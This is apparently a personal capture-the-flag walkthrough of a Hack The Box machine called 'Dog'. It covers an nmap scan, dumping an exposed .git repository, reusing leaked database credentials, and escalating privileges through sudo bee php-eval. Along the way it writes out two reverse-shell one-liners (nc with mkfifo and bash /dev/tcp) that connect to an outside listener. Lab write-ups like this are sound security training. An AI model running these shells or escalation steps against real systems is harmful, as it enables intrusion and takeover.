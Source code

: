 # Dog machine 

IP: 10.129.195.185

Command: nmap -sV -sC -A 10.129.195.185

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-06 15:54 EDT
Nmap scan report for 10.129.195.185
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.129.195.185:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   31.37 ms 10.10.14.1
2   31.39 ms 10.129.195.185

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.67 seconds

```
There is a git folder, let's try to see:
git clone https://github.com/Ebryx/GitDump.git

Helpful URL: https://stackoverflow.com/questions/75602063/pip-install-r-requirements-txt-is-failing-this-environment-is-externally-mana

Another one that is worked:
Command: git clone https://github.com/arthaud/git-dumper.git 

Helpful URL: https://stackoverflow.com/questions/1337320/how-can-i-grep-git-commits-for-a-certain-word

```
cat  settings.php
<?php
/**
 * @file
 * Main Backdrop CMS configuration file.
 */

/**
 * Database configuration:
 *
 * Most sites can configure their database by entering the connection string
 * below. If using primary/replica databases or multiple connections, see the
 * advanced database documentation at
 * https://api.backdropcms.org/database-configuration
 */
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';
```

https://stackoverflow.com/questions/16956810/find-all-files-containing-a-specific-text-string-on-linux

┌──(.venv)─(kali㉿kali)-[~/git-dumper/outout]
└─$ grep -rnw . -e "htb"        
./files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:12:        "tiffany@dog.htb"
./.git/logs/refs/heads/master:1:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000     commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
./.git/logs/HEAD:1:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000  commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases

Creds:tiffany@dog.htb:BackDropJ2024DS2024

Exploit: https://www.exploit-db.com/exploits/52021

Revere Shell:www-data:
shell command from the input: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.235 1234 >/tmp/f

Reverse shell:
bash -c 'bash -i >& /dev/tcp/10.10.14.235/1234 0>&1'
Our local machine: nc -nvlp 1234

su johncusack
password: BackDropJ2024DS2024

cd johncusack
cat user.txt

# Privilege Escalation

Command: sudo -l

Useful link: https://github.com/backdrop-contrib/bee/wiki/Usage

```
Advanced
eval

Description: Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
Aliases: ev , php-eval
Arguments:

    code - The PHP code to evaluate.

Examples:

    bee eval '$node = node_load(1); print $node->title;' - Loads node with nid 1 and then prints its title.
    bee eval "node_access_rebuild();" - Rebuild node access permissions.
    bee eval "file_unmanaged_copy('$HOME/Pictures/image.jpg', 'public://image.jpg');" - Copies a file whose path is determined by an environment's variable. Note the use of double quotes so the variable $HOME gets replaced by its value.

```

Command: sudo bee --root=/var/www/html php-eval 'system("/bin/bash");'

Different aliases: sudo bee --root=/var/www/html eval 'system("/bin/bash");'



